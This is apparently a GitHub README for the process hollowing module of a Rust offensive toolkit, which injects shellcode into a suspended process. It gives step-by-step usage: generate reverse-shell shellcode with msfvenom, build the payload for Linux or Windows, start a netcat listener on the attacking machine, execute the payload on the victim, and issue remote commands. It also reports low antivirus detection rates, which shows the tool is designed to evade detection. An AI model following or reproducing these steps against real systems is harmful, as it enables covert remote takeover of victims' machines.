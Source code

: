 # RCO: Process Hollowing

[![Custom badge](https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkmanc%2Fremote_code_oxidation%2Fmaster%2F.custom_shields%2Fprocess_hollowing.json)](https://github.com/kmanc/remote_code_oxidation/tree/master/process_hollowing)

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![](https://user-images.githubusercontent.com/14863147/151645583-68e054fc-ba49-4691-bca6-4e924f8ad498.gif)  |  ![](https://user-images.githubusercontent.com/14863147/151642061-6df0f601-3f07-4e0c-aaf5-fbbc229de2e0.gif)


## How it works

RCO's Windows process hollowing creates a suspended process and writes the [shellcode](https://en.wikipedia.org/wiki/Shellcode) over the entry point of the process's main thread. It then resumes the suspended process, which in turn executes the shellcode.

## Using it

1. [Not shown in GIF] Generate shellcode for the desired end result (for example, use [msfvenom](https://book.hacktricks.xyz/shells/shells/msfvenom) to generate a reverse TCP shell shellcode for the target operating system)
2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the shellcode to the shellcode generated in step 1
3. Compile the executable

    #### Build for Linux target
    ```commandline
    cargo build -p process_hollowing --release
    ```

    #### Build for Windows target
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p process_hollowing --release
    ```
4. Start a netcat listener on the attacking machine on the same port you configured the shellcode to connect to in step 1
    ```commandline
    nc -nlvp 4444
    ```   
5. Execute the payload on the victim machine
6. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 7 / 40](https://kleenscan.com/scan_result/c9dd1d93fa8a1a62d136b0f3fbe22fb21cbf65851271e73b177624fd5afbdef9)

![image](https://user-images.githubusercontent.com/14863147/151645694-c5962e70-a507-4352-8e23-9e452da19c96.png)

[Windows - 13 / 40](https://kleenscan.com/scan_result/6b7fd667a386059a55c8408affc1c8365859c27cd8ad247ca191c2c0796e1ad4)

![image](https://user-images.githubusercontent.com/14863147/151645657-e1924972-f817-40a1-91a6-520e82a7dc01.png)
